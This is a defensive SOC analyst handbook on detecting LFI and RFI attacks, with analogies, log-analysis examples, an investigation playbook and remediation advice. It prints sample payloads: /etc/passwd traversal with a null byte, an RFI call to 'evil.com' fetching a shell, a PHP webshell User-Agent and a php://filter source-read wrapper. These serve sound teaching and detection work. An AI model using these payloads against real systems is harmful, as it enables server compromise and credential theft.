


# 📘 SOC Analyst Handbook: Detecting RFI & LFI Attacks

**Category:** Injection / Broken Access Control
**Severity:** Critical
**Skill Level:** Intermediate

---

### 1. The Concept

**The Analogy (ELI5)**
Imagine a library where you ask the librarian to fetch a book by writing the title on a slip of paper.
*   **Normal:** You write "Harry Potter," and she brings it from the public shelf.
*   **LFI (Local File Inclusion):** You write "The Staff Payroll List" (a document hidden in the back office). The librarian, blindly following instructions, goes to the back office and brings you the confidential file.
*   **RFI (Remote File Inclusion):** You write "The Anarchist Cookbook" (which the library doesn't own). You tell her, "Go to the bookstore down the street, buy it, and bring it here." She leaves the building, fetches the dangerous book from an outside source, and brings it inside.

**The Technical Definition**
**File Inclusion** vulnerabilities occur when a web application allows user input to dynamically control the path of a file that is "included" or executed by the server-side code (common in PHP functions like `include()` or `require()`).
*   **LFI:** The application includes a file that already exists on the local server filesystem (e.g., `/etc/passwd`).
*   **RFI:** The application downloads and includes a file from a remote server controlled by the attacker (e.g., `http://attacker.com/shell.php`).

---

### 2. The Attack Mechanism

#### **The Root Cause**
Websites often use templates. A URL might look like:
`https://site.com/index.php?page=contact.php`
The code behind this is often: `include($_GET['page']);`

#### **LFI Mechanism (Directory Traversal)**
The attacker wants to break out of the website folder and access system files. They use `../` (dot-dot-slash) to move "up" one directory.
*   **Payload:** `../../../../etc/passwd`
*   **Result:** The server builds the path: `/var/www/html/../../../../etc/passwd` -> Resolves to -> `/etc/passwd`.
*   **The "Null Byte" Trick:** If the code appends `.php` automatically, attackers add `%00` (Null Byte) to the end of their input. This tricks C-based languages (like PHP) into ignoring everything after the byte.

#### **RFI Mechanism (Remote Execution)**
The attacker hosts a malicious script (like a Reverse Shell) on their own server.
*   **Payload:** `http://evil.com/shell.txt`
*   **Result:** The victim server reaches out to `evil.com`, downloads `shell.txt`, and *runs* it as if it were local code.

---

### 3. The Detective's Lens (Logs & Patterns)

As a SOC Analyst, you are looking for **path traversal characters** or **URL schemes** inside the parameters of a request.

#### **Key Indicators**
*   **Directory Traversal:** `../`, `..\` (Windows), `%2e%2e%2f` (Encoded).
*   **System Files (Linux):** `/etc/passwd`, `/etc/shadow`, `/proc/self/environ`, `/var/log/apache2/access.log`.
*   **System Files (Windows):** `C:\Windows\win.ini`, `boot.ini`.
*   **Remote Protocols (RFI):** `http://`, `https://`, `ftp://` appearing *inside* a query parameter.
*   **Null Bytes:** `%00`.


#### **Example Log Snippet (LFI Attempt)**
```text
192.168.31.174 - - [01/Mar/2022:11:58:35] "GET /index.php?language=../../../../../../etc/passwd%00 HTTP/1.1" 200 1854 "-" "Mozilla/5.0..."
```
*   **Analysis:**
    *   **Parameter:** `language` (This is the injection point).
    *   **Payload:** `../../` (Trying to go to root) + `/etc/passwd` (Target file) + `%00` (Bypass extension check).
    *   **Status 200:** The server accepted the request. Check response size to confirm success.

#### **Example Log Snippet (RFI Attempt)**
```text
192.168.31.174 - - [01/Mar/2022:12:05:00] "GET /index.php?page=http://10.10.10.5/shell.txt HTTP/1.1" 200 - "-" "curl/7.64"
```
*   **Analysis:** The `page` parameter is pointing to an external IP. This is a classic RFI attempt to pull a webshell.

---

### 4. Investigation Steps (The Playbook)

**Step 1: Decode & Deobfuscate**
*   Attackers rarely send clean `../`. They send `%2e%2e%2f`.
*   **Action:** Decode the URL. If you see repeated dots and slashes, it is an LFI attempt.

**Step 2: Determine Success (Response Size)**
*   **Status 200 is not enough.** The page might load "Default Content" even if the attack fails.
*   **Compare Sizes:**
    *   Normal Page: `1500 bytes`.
    *   LFI Attempt: `3500 bytes`. (Difference = 2000 bytes, which is roughly the size of `/etc/passwd`).
    *   **Conclusion:** The extra data likely indicates the system file was dumped.

**Step 3: Check for "Log Poisoning" (Advanced LFI)**
*   If an attacker can read logs via LFI (e.g., `?page=/var/log/apache/access.log`), they might inject PHP code into their *User-Agent* in a previous request.
*   **Action:** Check previous logs from that IP. Did they send a User-Agent like `<?php system($_GET['cmd']); ?>`?

**Step 4: Check Outbound Traffic (For RFI)**
*   For RFI to work, the victim server must connect to the attacker.
*   **Action:** Check Firewall logs. Did the Web Server initiate a connection to the IP found in the URL parameter?

---

### 5. Remediation & Defense

**Immediate Actions (SOC)**
1.  **Block the IP:** Especially if you see successful retrieval of system files.
2.  **Geo-Blocking:** RFI often pulls files from foreign IPs.

**Long-term Fixes (Engineering)**
1.  **Disable Remote Includes:** In `php.ini`, set `allow_url_include = Off`. This kills RFI instantly.
2.  **Use ID Maps:** Instead of `?page=contact.php`, use `?page=1`. The backend code should map `1` to `contact.php`. The user never types the filename.
3.  **Input Validation:** Whitelist allowed filenames. Reject any input containing `/` or `.`.

---

### 🛑 SOC Pro-Tips (Beyond the Basics)

1.  **PHP Wrappers (`php://`):**
    *   Attackers use these to encode files before reading them, bypassing simple text filters.
    *   *Payload:* `php://filter/convert.base64-encode/resource=index.php`
    *   *Result:* The server returns the source code of `index.php` encoded in Base64. The attacker decodes it to find passwords in the source code.
    *   *Detection:* Alert on `php://` appearing in URL parameters.

2.  **OS Distinction:**
    *   If you see `C:\Windows` in logs, the attacker knows (or thinks) the victim is running Windows.
    *   If you see `/etc/passwd`, they are targeting Linux.
    *   *Note:* If you are defending a Linux server and see `C:\Windows` attacks, it's likely an automated script that doesn't know what OS you are running (a "spray and pray" attack).

3.  **LFI to RCE:**
    *   LFI is not just about reading files. If an attacker can upload a file (like a profile picture) containing PHP code, then use LFI to include that profile picture... the code executes. This turns LFI into **Remote Code Execution (RCE)**.




